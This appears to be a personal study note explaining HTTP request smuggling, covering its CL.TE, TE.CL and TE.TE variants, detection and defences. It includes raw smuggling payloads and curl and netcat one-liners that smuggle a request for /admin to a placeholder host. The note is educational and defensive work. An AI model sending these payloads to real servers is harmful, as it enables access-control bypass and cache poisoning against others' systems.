








>[!abstract]
>
>**HTTP Request Smuggling (HRS)** is a vulnerability that occurs when two HTTP components, typically a **front-end proxy** and a **back-end server**, interpret the boundaries of HTTP requests differently. This discrepancy is commonly caused by inconsistent handling of headers such as `Content-Length` and `Transfer-Encoding`.
>
>In a typical architecture, the **front-end server** acts as a proxy and forwards client requests to the **back-end server**. If these two components disagree about where a request ends and the next request begins, an attacker may be able to **desynchronize the HTTP connection** and cause part of one request to be interpreted as a separate request by the back-end.
>
>The three classic request-smuggling variants are:
>
>- **CL.TE**: Front-end uses `Content-Length`, while the back-end uses `Transfer-Encoding`.
>    
>- **TE.CL**: Front-end uses `Transfer-Encoding`, while the back-end uses `Content-Length`.
>    
>- **TE.TE**: Both use `Transfer-Encoding`, but parse or normalize the header differently.
>    
>
>The core concept is simple:
>
>```text
>Front-End interpretation ≠ Back-End interpretation
>```
>
>This parser discrepancy can potentially lead to **request queue poisoning, access-control bypass, cache poisoning, and other attacks**, depending on the architecture and how the affected HTTP connections are reused.
>


![[Pasted image 20260818003235.png]]




The important point is that the attacker is not necessarily attacking the back-end directly.

Instead, the attacker exploits a **parsing discrepancy** between:

- the **Front-End server**, which acts as a reverse proxy/load balancer
- the **Back-End server**, which processes the forwarded requests

The vulnerability becomes possible when both servers interpret the HTTP message boundaries differently.

---

# 1. Why Request Smuggling Happens

HTTP/1.1 provides multiple mechanisms for determining the length of a request.

The two most important headers are:

```http
Content-Length
Transfer-Encoding: chunked
```

### `Content-Length`

`Content-Length` specifies the size of the HTTP message body in bytes.

Example:

```http
POST / HTTP/1.1
Host: example.com
Content-Length: 11

hello=world
```

The receiver interprets the body as exactly 11 bytes.

---

### `Transfer-Encoding: chunked`

With chunked encoding, the body is divided into chunks.

For example:

```http
POST / HTTP/1.1
Host: example.com
Transfer-Encoding: chunked

5
hello
0
```

The structure is:

```text
chunk-size
chunk-data

chunk-size
chunk-data

0
```

The terminating:

```text
0
```

indicates the end of the chunked message body.

---

# 2. The Core of HTTP Request Smuggling

The fundamental problem is:

```text
Front-End interpretation
        ≠
Back-End interpretation
```

For example:



Suppose the attacker sends two logical requests inside one TCP connection.

The front-end believes:

```text
Request #1 = bytes 1 → 120
Request #2 = bytes 121 → ...
```

while the back-end believes:

```text
Request #1 = bytes 1 → 100
Request #2 = bytes 101 → ...
```

Those extra bytes can therefore become the beginning of a different request.

This is the essence of request smuggling.

---

# 3. The Three Important Variants

The three classic variants are:

```text
CL.TE
TE.CL
TE.TE
```

Where:

```text
CL = Content-Length
TE = Transfer-Encoding
```

The notation describes which mechanism the **front-end** and **back-end** prioritize.

---

# 4. CL.TE

## Definition

In a **CL.TE** vulnerability:

```text
Front-End → Content-Length
Back-End  → Transfer-Encoding
```

So:



The two servers therefore disagree about where the request ends.

---

## CL.TE Example

Consider:

```http
POST / HTTP/1.1
Host: vulnerable.example
Content-Length: 13
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: vulnerable.example
```

The important part is:

```http
Content-Length: 13
```

and:

```http
Transfer-Encoding: chunked
```

### Front-End interpretation

The front-end trusts:

```http
Content-Length: 13
```

Therefore it considers the first request to contain a body of 13 bytes.

It may effectively see:

```text
POST / HTTP/1.1
...
[13 bytes]
```

The remaining bytes stay on the connection.

### Back-End interpretation

The back-end honors:

```http
Transfer-Encoding: chunked
```

and sees:

```text
0
```

The zero-sized chunk means:

```text
END OF REQUEST
```

Therefore the back-end considers the following bytes to be a new request:

```http
GET /admin HTTP/1.1
Host: vulnerable.example
```

This creates the discrepancy:

```text
FRONT-END

POST / HTTP/1.1
       │
       └──── Content-Length determines boundary


BACK-END

POST / HTTP/1.1
       │
       └──── chunked encoding ends at 0

GET /admin
       │
       └──── interpreted as another request
```

---

# 5. Testing CL.TE with curl

For testing in an authorized lab, `curl` can be used to construct the HTTP request.

A basic example is:

```bash
curl --http1.1 \
  -X POST \
  -H 'Host: vulnerable.example' \
  -H 'Content-Length: 13' \
  -H 'Transfer-Encoding: chunked' \
  --data-binary $'0\r\n\r\nGET /admin HTTP/1.1\r\nHost: vulnerable.example\r\n\r\n' \
  http://vulnerable.example/
```

However, `curl` and intermediate HTTP libraries can normalize or modify requests, so for serious testing **Burp Repeater, netcat, or a raw TCP client** can provide more precise control over the exact bytes transmitted.

For example:

```bash
printf 'POST / HTTP/1.1\r\nHost: vulnerable.example\r\nContent-Length: 13\r\nTransfer-Encoding: chunked\r\n\r\n0\r\n\r\nGET /admin HTTP/1.1\r\nHost: vulnerable.example\r\n\r\n' \
| nc vulnerable.example 80
```

This is particularly useful because request smuggling is fundamentally a **raw byte / message framing problem**.

---

# 6. TE.CL

## Definition

In a **TE.CL** vulnerability:

```text
Front-End → Transfer-Encoding
Back-End  → Content-Length
```

The front-end understands chunked encoding, while the back-end uses `Content-Length`.



---

## TE.CL Example

A conceptual request looks like:

```http
POST / HTTP/1.1
Host: vulnerable.example
Content-Length: 4
Transfer-Encoding: chunked

5c
GET / HTTP/1.1
Host: vulnerable.example

GET /admin HTTP/1.1
Host: vulnerable.example

0
```

The important discrepancy is:

```text
Front-End:
Transfer-Encoding: chunked
        ↓
reads the chunk structure

Back-End:
Content-Length: 4
        ↓
reads only the specified body length
```

The two components therefore establish different request boundaries.

---

## How the Desynchronization Happens

Conceptually:

```text
Attacker
   │
   ▼
┌──────────────────────┐
│ Front-End             │
│ TE = chunked          │
│                       │
│ Reads complete chunks │
└──────────┬───────────┘
           │
           ▼
┌──────────────────────┐
│ Back-End              │
│ CL = 4                │
│                       │
│ Reads only 4 bytes    │
└──────────┬───────────┘
           │
           ▼
      Desynchronized
      TCP connection
```

Once the connection is desynchronized, subsequent bytes can be interpreted as a separate HTTP request.

---

# 7. TE.TE

## Definition

In a **TE.TE** scenario, both servers support:

```http
Transfer-Encoding: chunked
```

At first glance:

```text
Front-End → TE
Back-End  → TE
```

should be safe.

The problem occurs when the two implementations **parse or normalize the `Transfer-Encoding` header differently**.

This is commonly called **obfuscation-based request smuggling**.

---

# 8. TE.TE Obfuscation

For example, implementations may disagree about unusual representations such as:

```http
Transfer-Encoding: chunked
```

versus malformed or obfuscated forms.

Potential differences can involve:

```text
Whitespace
Header casing
Duplicate headers
Invalid transfer-coding syntax
Unexpected separators
Header normalization
```

For example:

```http
Transfer-Encoding: chunked
Transfer-Encoding: identity
```

One component might:

```text
use first value
```

while another might:

```text
use last value
```

Similarly, differences in handling malformed syntax can cause:

```text
Front-End → TE
Back-End  → CL
```

even though both nominally support chunked encoding.

The important concept is not the exact spelling of the header.

It is:

> **Different HTTP parsers reach different conclusions about the same bytes.**

---

# 9. Connection Desynchronization

Request smuggling becomes particularly interesting when HTTP connections are reused.

Suppose:



The attacker can cause the back-end connection to become **desynchronized**.

The next request arriving on that connection may then be interpreted in an unexpected context.

This is why request smuggling can become much more serious than simply receiving an unusual HTTP response.

---

# 10. Request Queue Poisoning

A useful mental model is a queue:

```text
Front-End Queue
────────────────────────────────────

Request A
Request B
Request C
Request D


Back-End Queue
────────────────────────────────────

Request A'
Request B'
Request C'
Request D'
```

Normally:

```text
A = A'
B = B'
C = C'
D = D'
```

With request smuggling:

```text
A ≠ A'
```

The boundary shifts.

For example:

```text
Front-End:

┌──────── Request 1 ────────┐┌── Request 2 ──┐
│                           ││               │
└───────────────────────────┘└───────────────┘


Back-End:

┌──── Request 1 ────┐┌────── Request 2 ─────────┐
│                   ││                          │
└───────────────────┘└──────────────────────────┘
```

That difference is the vulnerability.

---

# 11. Why HTTP/1.1 Matters

Classic request smuggling is strongly associated with **HTTP/1.1 persistent connections**.

The client sends:

```text
Request 1
Request 2
Request 3
```

over the same TCP connection.

The connection looks conceptually like:

```text
TCP Stream
─────────────────────────────────────────────►

[HTTP Request 1][HTTP Request 2][HTTP Request 3]
```

The server must correctly determine where each request starts and ends.

If:

```text
Front-End parser ≠ Back-End parser
```

the stream becomes ambiguous.

---

# 12. CL.TE vs TE.CL vs TE.TE

|Variant|Front-End|Back-End|Main Problem|
|---|---|---|---|
|**CL.TE**|Content-Length|Transfer-Encoding|Different request boundaries|
|**TE.CL**|Transfer-Encoding|Content-Length|Different request boundaries|
|**TE.TE**|Transfer-Encoding|Transfer-Encoding|Parser/normalization discrepancy|

The key thing to remember:

```text
CL.TE
    FE trusts CL
    BE trusts TE

TE.CL
    FE trusts TE
    BE trusts CL

TE.TE
    Both use TE
    But parse/normalize it differently
```

---

# 13. Detecting Request Smuggling

A safe methodology is:



Useful tools include:

```bash
curl
Burp Suite
netcat
Wireshark
tcpdump
```

For example:

```bash
curl --http1.1 -v http://vulnerable.example/
```

The `-v` option helps inspect the request/response exchange.

For raw traffic:

```bash
sudo tcpdump -i any -nn -A 'tcp port 80'
```

Or:

```bash
sudo tcpdump -i any -nn -s0 -w capture.pcap 'tcp port 80'
```

Then inspect the stream in Wireshark.

---

# 14. What You Should Actually Look For

When analyzing a suspected HRS vulnerability, don't just look for:

```text
HTTP 200
HTTP 400
HTTP 500
```

Look for **desynchronization indicators**:

```text
Unexpected response timing
Connection hangs
Different responses between repeated requests
Request queue corruption
Unexpected 404/400 responses
Backend receiving an unexpected method/path
Connection reuse behaving differently
```

A particularly useful observation is:

```text
Request A
   ↓
Front-End: accepted

Back-End:
   ↓
waits for additional bytes
```

That can indicate that the two components disagree about the request boundary.

---

# 15. Front-End / Back-End Architecture

A realistic deployment might look like:



The attack surface therefore isn't necessarily just:

```text
Client ↔ Application
```

It can be:

```text
Client
   ↓
CDN
   ↓
WAF
   ↓
Load Balancer
   ↓
Reverse Proxy
   ↓
Application
```

Every additional HTTP parser is another opportunity for disagreement.

Because apparently one parser wasn't enough for humanity.

---

# 16. Important Distinction: HTTP Request Smuggling vs Request Splitting

These are different vulnerabilities.

### HTTP Request Smuggling

The attacker exploits **different interpretations of request boundaries** between HTTP components.

```text
Front-End interpretation
          ≠
Back-End interpretation
```

### HTTP Response Splitting

The attacker injects response delimiters such as CRLF into response-related data.

```text
Attacker input
      ↓
CRLF injection
      ↓
Multiple HTTP responses / headers
```

They should not be treated as the same vulnerability.

---

# 17. Security Impact

Depending on the architecture and exact primitive, request smuggling can potentially lead to:

- Access-control bypass
    
- Web cache poisoning
    
- Request queue poisoning
    
- Authentication bypass
    
- Security-control bypass
    
- Access to unintended back-end endpoints
    
- Session-related attacks
    
- Credential or request interference
    
- Cross-user request interference
    

The impact depends heavily on:

```text
Front-End behavior
+
Back-End behavior
+
Connection reuse
+
Caching
+
Authentication architecture
```

So finding a parser discrepancy does not automatically mean "RCE". Security reports love that particular leap of imagination.

---

# 18. Defensive Measures

The strongest defense is to ensure that every HTTP component interprets request boundaries consistently.

### 1. Reject ambiguous requests

Requests containing conflicting framing information should generally be rejected rather than forwarded.

For example:

```http
Content-Length: ...
Transfer-Encoding: chunked
```

should receive careful validation.

### 2. Normalize requests

The front-end should parse and normalize the request before forwarding it.

### 3. Avoid parser inconsistencies

Keep HTTP parsing behavior consistent across:

```text
CDN
WAF
Load Balancer
Reverse Proxy
Application Server
```

### 4. Close ambiguous connections

If a malformed or ambiguous request is detected:

```text
Reject request
+
Close connection
```

rather than attempting to recover while keeping the connection alive.

### 5. Monitor desynchronization indicators

SOC monitoring can look for:

```text
Repeated malformed HTTP requests
Unexpected HTTP methods
Abnormal 400/408/502 patterns
Connection resets
Unusual request timing
WAF/proxy/backend disagreement
```

---

# 19. Final Mental Model

The entire vulnerability can be reduced to one idea:



The three patterns to memorize are:

```text
                 FRONT-END       BACK-END

CL.TE            Content-Length  Transfer-Encoding

TE.CL            Transfer-Encoding Content-Length

TE.TE            Transfer-Encoding Transfer-Encoding
                 but different parsing/normalization
```

And the central principle is:

> **HTTP Request Smuggling occurs when the front-end and back-end disagree about where one HTTP request ends and another begins.**

The attack is therefore fundamentally a **parser differential + persistent connection + ambiguous message framing** problem, not merely a weird HTTP header trick.